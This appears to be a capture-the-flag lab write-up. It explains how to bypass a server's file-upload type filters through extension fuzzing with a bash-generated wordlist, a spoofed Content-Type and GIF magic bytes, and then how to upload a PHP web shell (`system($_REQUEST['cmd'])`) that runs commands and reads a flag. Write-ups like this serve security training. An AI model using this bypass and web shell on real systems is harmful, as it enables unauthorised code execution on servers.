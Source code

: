 # Type Filters

The above server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to ensure the uploaded file is an image. Try to combine all of the attacks you learned so far to bypass these filters and upload a PHP file and read the flag at "/flag.txt"

As the Lab suggests, the server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to guarantee that the file uploaded is an image.

So we must apply all the knowledge learned so far.

We start by capturing the request and send to the Intruder.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Lets cover 3 components in this test:

* File extension - filename="§x§"
* Content-type - image/jpg
* File Signature - GIF8

We placed the `<?php echo "shell test";?>` to see if the php code was acttually executed.

To iterate the values of the file extensions let's create our own wordlist with the following script:

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps' 'php3' '.phar'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

Copy the content to the Intruder's payload configuration and run it. Don't forget to untick the payload encoding checkbox.

We placed the `<?php echo "shell test";?>` to see if the php code was acttually executed.

When the Intruder finishes the attack we can order by length, since the successfully uploaded files have a length of 229 and 230.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now lets modify the Request by send it to the Repeater.

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We change the name (optional) to **shell.gif:.phar** and for the php code we change to this:

```php
<?php system($_REQUEST['cmd']); ?>
```



<figure><img src="../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

We do a simple just by execute the `id` command, as we can see from the output the above we manage to get a webshell!

<figure><img src="../../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we just have to found the flag, that in our case is in our root directory.
